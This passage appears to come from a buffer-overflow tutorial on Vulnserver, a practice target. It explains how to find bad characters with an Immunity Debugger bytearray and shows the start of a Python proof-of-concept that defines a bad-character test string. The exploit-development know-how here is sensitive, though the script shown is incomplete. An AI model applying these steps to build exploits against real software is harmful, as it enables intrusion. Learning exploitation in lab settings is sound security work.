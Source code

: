 Depending on the application, vulnerability type, and protocols in use, there may be
certain characters that are considered “bad” and should not be used in your buffer,
return address, or shellcode

we generate a bytearray from the immunity debugger:

![Vulnserver_3](/static/img/01/4.png)

the bytearray generated from immunity debugger we update our PoC with them to see what are our bad chars

```python
#!/usr/bin/python
import socket
import struct

badchars =  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a"
badchars += "\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15"
badchars += "\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b"
badchars += "\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36"
badchars += "\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
badchars += "\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c"
badchars += "\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57"
badchars += "\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
badchars += "\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d"
badchars += "\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78"
badchars += "\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83"
badchars += "\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
badchars += "\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99"
badchars += "\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4"
badchars += "\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
badchars += "\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba"
badchars += "\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5"
badchars += "\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
badchars += "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb"
badchars += "\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6"
```